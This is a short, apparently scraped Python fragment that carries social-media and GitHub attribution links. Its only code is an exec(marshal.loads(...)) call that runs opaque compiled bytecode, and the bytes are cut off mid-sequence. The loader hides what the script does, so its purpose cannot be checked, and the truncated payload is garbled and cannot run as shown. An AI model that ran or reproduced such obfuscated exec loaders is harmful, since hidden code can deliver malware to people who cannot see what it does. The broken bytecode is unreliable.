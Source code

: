 #Fb link https://www.facebook.com/profile.php?id=100087428240352&mibextid=ZbWKwL
#https://github.com/Tutul-Dark/Tutul-Dark
import marshal
exec(marshal.loads(b'\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x>
